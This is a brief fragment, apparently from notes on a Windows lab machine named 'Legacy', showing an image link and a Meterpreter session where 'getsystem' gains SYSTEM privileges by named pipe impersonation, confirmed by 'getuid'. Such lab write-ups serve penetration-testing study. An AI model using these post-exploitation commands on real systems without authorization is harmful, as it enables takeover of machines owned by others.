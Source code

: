 ![](Maszyny/Windows/Legacy/Pasted%20image%2020210808153253.png)

meterpreter > getsystem
got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
